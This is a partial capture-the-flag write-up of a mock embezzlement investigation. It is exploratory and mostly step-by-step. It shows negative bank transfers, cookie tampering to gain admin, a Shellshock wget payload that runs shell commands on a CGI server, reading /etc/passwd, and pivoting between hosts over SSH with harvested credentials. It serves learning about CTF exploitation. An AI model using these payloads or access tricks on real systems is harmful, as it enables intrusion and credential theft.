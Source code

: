 # Write-up
Note: try to do it yourself, it is a much more rewarding experience. See this as
a last resort resource.

This is just a WIP, I have only started the CTF.

Update: Annnnnd it looks like the CTF is down now. Unfortunate, I wanted to come back to it. Will leave the repo for archiving purposes.

## 1 - Start
start at:
`http://45.55.54.126/`

want to prove that CEO is embezzling funds.

gives employee portal:
* `104.236.74.251`
* user: `jameson`
* pass: `hunter72`

gives bank interface:
* `104.236.74.251:3000`
* user: `bank`
* pass: `pbeukpbnhovhyixcialnlhpzo`


## 2 - Bank & Employee Portal
### 2.1 - Bank Interface
`http://104.236.74.251:3000/`

turns out it allows negative values:

```
TRANSFER CS -1000.0
(wait 10s)
WITHDRAW 1.0
```

gives URL to scraped accounts:
`http://104.236.74.251:3000/JJJ/all-in-internal-network.txt`

### 2.2 - Employee Portal
starts at: `http://104.236.74.251/`

personal site: `http://104.236.74.251/~dglenn/`

see poems, go up a folder, see files: `http://104.236.74.251/~dglenn/private/`

one of the keys: `http://104.236.74.251/~dglenn/private/key.txt`


also, security notice here: `http://104.236.74.251/mail/isn.html`

it tells us that we want to reach the *new* website (we're currently on the old
one).

it tells us that the new website will be on the internal network (good for us).

it tells us that we'll need 5 keys to access the boss docs.



change cookies so that `accesslevel=2` (`document.cookie="accesslevel=2";`), get
admin.


address of new website: `104.131.92.247`

will need to combine keys here: `http://104.236.74.251/~wscott/keys`

will access the boss dosc here: `http://104.236.74.251/` (user `bdupont`)

## 3 - New Website
`http://104.131.92.247/index.cgi`

Apache & CGI? **SHELLSHOCK**!

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/ls" http://104.131.92.247/index.cgi`

[resource](http://security.stackexchange.com/a/68203/44738)

gives us the files:
 * `index.cgi` - has code to trigger Shellshock
 * `index.php` - redirects to `index.cgi`
 * `admin.php` - redirects to `gist.github` and `die()`


`ls` on `/home` (or `cat /etc/passwd`) shows there is a user `jhendricks`

`ls` around (`..`), find file `note`, `cat` it:


```
To: Jim Hendricks
From: Carla Lynn
Date: September 5, 2015
Subject: Public frontend

The public frontend has been set up and can be found at 104.131.92.247

Your user account is as follows:

Username: jhendricks
Password: oXwBJMtx3BJ5yKg

As an IT manager it is your responsibility to make sure this server, as well as our other servers, are frequently updated with the latest patches available.

Please keep this memo safe and change your password immediately.

Regional IT Director
Carla Lynn
```

## 4 - Jhendricks
frontend is at: `104.131.92.247`
* user: `jhendricks`
* pass: `oXwBJMtx3BJ5yKg`

Those are valid SSH creds. Login.


Running `set` to see env vars, see MAIL (learned about that var and that is
represents unread emails).

`cat /var/spool/mail/jhendricks`:

```
From carla@thenorth.com  Sat Sep  5 02:41:53 2015
Return-Path: <carla@thenorth.com>
X-Original-To: jhendricks@thenorth.com
Delivered-To: jhendricks@thenorth.com
Received: by mail3.thenorth.com
  id B24C33FEA3; Sat,  5 Sep 2015 02:41:53 -0400 (EDT)
  Date: Sat, 05 Sep 2015 02:41:53 -0400
  To: jhendricks@thenorth.com
  Subject: Info
  MIME-Version: 1.0
  Content-Type: text/plain; charset=us-ascii
  Content-Transfer-Encoding: 7bit
  Message-Id: <20150905064153.B24C33FEA3@thenorth.com>
  From: carla@thenorth.com (carla)
  Status: RO

  Here are our servers. I'll keep you updated as we get more

  10.132.106.223 - 104.236.251.33
  10.132.3.229 - 45.55.179.181
  10.132.170.147 - 45.55.183.167
  10.132.114.141 - 45.55.47.192
  10.132.34.120 - 104.131.109.3
```


Could login to `45.55.47.192` with `wscott`:
* user: `wscott`
* pass: `oTLhoRZ8JOIDhkD`

## 5 - Wscott
SSH to `45.55.47.192`
* user: `wscott`
* pass: `oTLhoRZ8JOIDhkD`

`cat secretkey/README`:

```
If you're snooping around in this folder, you're
either Wesley (myself) or an intruder. If the latter
is true, get lost.

----

New security policy means that our keys can be combined
to get Bert's secret. Until the security of these
servers is proven in practice keys should be stored on
the old webserver, here:

http://104.236.74.251/~wscott/secret

Key is protected with a passphrase. The passphrase is
not stored in plaintext for security purposes. Instead
it is hashed with /usr/local/bin/securehash. Of course
secure hash is chosen because it is far more secure than
broken hash functions such as MD5.

Oh, and if you're an intruder: securehash is not related
to NIST's "SHA ('Secure' Hash Algorithm)" which is of
course not secure at all. securehash is my own invention
and nobody has broken it at all yet, so you can leave now.

Hash: 84c355da8831b62075d2ad9133ce6512
```
